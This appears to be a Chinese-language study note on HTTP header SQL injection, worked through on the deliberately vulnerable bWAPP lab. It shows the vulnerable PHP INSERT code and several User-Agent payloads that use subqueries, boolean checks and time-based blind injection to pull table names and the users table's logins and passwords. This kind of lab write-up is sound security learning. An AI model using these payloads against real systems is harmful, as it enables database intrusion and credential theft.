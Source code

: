 HTTP头注入是什么?

针对HTTP请求头,如果不加以过滤或转义,直接与数据库交互的过程容易被利用进行SQL 注入攻击,即HTTP攻击

## 常见场景

访问Web Server时,会从HTTP Header中取出浏览器信息,IP地址,HOST信息等存储到数据库中


## 

思考过程

使用burpsuite尝试修改User-Agent 为 123 发现在前端页面也变成了 123 
随后继续修改为 123' 有报错
继续修改 111', '222') # 发现不仅User-Agent被修改, IP_Address 也被改变
此时尝试注入 111', (select database())); # 发现可以返回数据库名
尝试时间盲注 111', sleep(2)); # 可以看出返回时间延迟了大约两秒

## 预测

insert into ... values(xxx, yyy)

## 进入容器查看

docker exec -it xxx(容器ID) bash

```php
$ip_address = $_SERVER["REMOTE_ADDR"];
$user_agent = $_SERVER["HTTP_USER_AGENT"];

// Writes the entry into the database
$sql = "INSERT INTO visitors (date, user_agent, ip_address) VALUES (now(), '" . sqli($user_agent) . "', '" . $ip_address . "')";
```

## 做题

#### 1 SQL注入

我们在课程中已经知道数据库名称为 bWAPP
注意每次只能返回一行,所以要 limit 1

1 information_schema.tables 为 数据库中表数据表信息
  所以 111', (select table_name from information_schema.tables where  table_schema=database() limit 1 offset 0)); #
可以成功查询数据表,但是返回为blog,并不是我们所希望的内容
接下来通过修改 offset 偏移控制返回第几条;可以发现offset为3时返回数据表名为 users

2 查询user中包含几个字段
  information_schema.columns 很重要!
  具体利用过程同上
  111', (select column_name from information_schema.columns where table_name='users' limit 1 offset 0)); #
  利用上述指令即可查得id,继续利用偏移查询
  id login password 分别位于偏移 0, 1, 2 处
  
3 查询具体敏感数据
  111', (select id from users limit 1 offset 0)); #
  直接对users数据表的第一个id字段进行查询
  同理将id 更换为 login 与 password 即可查询得到id为1的用户全部信息
  再更换offset重复上述操作即可完成SQL注入攻击

#### 2 两种以上不同函数完成

因为可以直执行整句逻辑,很自由,下面两种方法都可以帮助我们进行SQL注入

可以使用布尔型注入
substring(version(), 1, 1) = 5
=5时返回1 !=5时返回 0 意味着我们还可以使用布尔进行SQL注入,需要编写简本
111', substring(database(),1,1)='b'); # 返回1 一次类推遍历 (33,128) 可以依次找寻到数据库名字全称
在时间盲注的练习中没少写... 同理


时间延迟注入
sleep(3) 与布尔型同理,但是可以应对没有回显情况.通过判断延时是否被执行从而推断出SQL条件是否正确
因为时间延迟注入中要前置条件为真,所以可以看作布尔注入升级版
111', substring(database(),1,1)='b' and sleep(2)); #
在布尔注入后直接加上and sleep(2)即可


#### 3 交换位置怎么办

首先修改代码
```php
// $sql = "INSERT INTO visitors (date, user_agent, ip_address) VALUES (now(), '" . sqli($user_agent) . "', '" . $ip_address . "')";
$sql = "INSERT INTO visitors (date, ip_address, user_agent) VALUES (now(), '" . sqli($ip_address) . "', '" . $user_agent . "')";
```

测试111正常 
后续指令失效,原因是交换位置后已经无法再继续向后直接拼接
课程的评论区大佬已经给出了解决办法,那就是时间盲注

111'+ (substring(database(),1,1)='b' and sleep(2)));#

写burpsuite脚本还不会..练习一下再回来补

## 课后题

1 利用SQL盲注完成HTTP头注入
2 (提高)尝试用两种以上不同MySQL函数完成盲注练习
3 (进阶)修改user-agent 与 ip_address位置尝试注入
